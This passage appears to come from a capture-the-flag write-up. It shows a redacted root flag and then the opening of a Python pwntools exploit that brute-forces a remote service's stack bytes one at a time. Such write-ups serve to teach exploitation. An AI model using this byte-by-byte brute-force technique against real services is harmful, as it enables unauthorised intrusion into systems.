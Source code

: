 
And grab `root.txt`:

    
    
    $ cat root.txt
    1c773343************************
    

The full exploit source code is:

    
    
    #!/usr/bin/env python3
    
    import sys
    import time
    from pwn import *
    import pdb
    
    def get_next_byte(s, r):
    
        for i in r:
            p = remote(host,port)
            p.recvuntil("Please enter the message you want to send to admin:\n")
            try:
                p.send(s + i.to_bytes(1,'big'))
                p.recvuntil('Done.', timeout=2)
                p.close()
                return i.to_bytes(1,'big')
            except EOFError:
                p.close()
        import pdb
        pdb.set_trace()
        print("Failed to find byte")
    
    
    def brute_word(buff, num_bytes, obj, assumed=b''):
    
        start = time.time()
        result = assumed
        with log.progress(f'Brute forcing {obj}') as p:
            for i in range(num_bytes):
                current = '0x' + ''.join([f'{x:02x}' for x in result[::-1]]).rjust(16,'_')
                p.status(f'Found {len(result)} bytes: {current}')
                byte = None
                context.log_level = 'error'  # Hide "Opening connection" and "Closing connection" messages
                while byte == None:          # If no byte found, over range again
                    byte = get_next_byte(buff + result, range(0,255))
                result = result + byte
                context.log_level = 'info'   # Re-enable logging
            p.success(f'Finished in {time.time() - start:.2f} seconds')
    
        log.success(f"{obj}:".ljust(20,' ') + f"0x{u64(result):016x}")
        return result
    
    
    if len(sys.argv) != 2 or sys.argv[1] not in ['local','remote']:
        print("Usage: %s [target]\ntarget is local or remote\n" % sys.argv[0])
        sys.exit(1)
    target = sys.argv[1]
    